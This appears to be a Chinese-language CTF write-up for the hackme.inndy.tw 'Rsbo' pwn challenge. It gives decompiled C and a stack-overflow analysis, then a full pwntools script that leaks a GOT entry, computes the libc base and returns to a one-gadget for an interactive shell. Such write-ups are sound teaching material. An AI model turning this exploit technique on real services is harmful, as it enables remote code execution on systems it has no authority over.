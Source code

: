 ```yaml
---
title: hackme.inndy.tw::Rsbo & Rsbo 2
date: 2023-10-17 21:24:55
tags: pwn
---
```


## challenge
`Tips: ROP, open, read`

## 保護機制
NX開啟，Partial RELRO

## 分析
### main
<!-- more -->
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  char buf[80]; // [esp+10h] [ebp-60h]
  int v6; // [esp+60h] [ebp-10h]
  int v7; // [esp+64h] [ebp-Ch]
  int v8; // [esp+68h] [ebp-8h]
  int i; // [esp+6Ch] [ebp-4h]

  alarm(0x1Eu);
  init();
  v8 = read_80_bytes(buf);
  for ( i = 0; i < v8; ++i )
  {
    v3 = rand();
    v7 = v3 % (i + 1);
    v6 = buf[i];
    buf[i] = buf[v3 % (i + 1)];
    buf[v7] = v6;
  }
  write(1, buf, v8);
  return 0;
}
```
### init
```c
void init()
{
  char buf[16]; // [esp+14h] [ebp-24h]
  int fd; // [esp+24h] [ebp-14h]
  unsigned int seed; // [esp+28h] [ebp-10h]
  int i; // [esp+2Ch] [ebp-Ch]

  fd = open("/home/ctf/flag", 0);
  read(fd, buf, 0x10u);
  seed = time(0);
  for ( i = 0; i <= 15; ++i )
    seed = (signed int)(1337 * seed + buf[i]) % 0x7FFFFFFF;
  close(fd);
  memset(buf, 0, 0x10u);
  srand(seed);
}
```
觀察組語可發現 `main()` stack大小小於0x80(128), 而`read_80_bytes()`造成 overflow

因為ASLR, NX 的關係, 需要想辦法ROP

但binary太小, 組不起ROP chain, 因此使用libc

只要Leak GOT, 接著就可以算出libc base & getshell了

## exploit
```python
#!/usr/bin/env python2

from pwn import *
context.log_level = 'debug'

#p = process('rsbo')
p = remote('hackme.inndy.tw', 7706)
e = ELF('rsbo')
libc = ELF('libc-2.23.so.i386')

#Stage 1 (leak read)
payload = '\x00'*108
payload += p32(e.symbols['write']) + p32(e.symbols['_start']) + p32(1) + p32(e.got['read']) + p32(4)
p.send(payload)
libc_base = u32(p.recv(4)) - libc.symbols['read']
print '[+]Libc base at: {}'.format(hex(libc_base))

payload = '\x00'*108
payload += p32(libc_base + 0x5faa5)
p.send(payload)

p.interactive()
p.close()
```
shell連上去之後可以拿到2個 Flag

